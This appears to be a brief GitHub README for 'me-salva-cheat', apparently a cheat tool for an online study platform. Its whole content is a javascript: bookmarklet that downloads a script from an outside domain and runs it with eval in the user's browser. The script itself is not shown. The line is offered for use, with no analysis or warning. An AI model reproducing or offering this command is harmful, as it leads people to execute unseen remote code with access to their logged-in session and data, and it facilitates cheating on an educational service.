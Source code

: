 # me-salva-cheat

```js
javascript:fetch("https://mesalva.cmsphacks.xyz/script.js").then(t=>t.text()).then(eval);
```
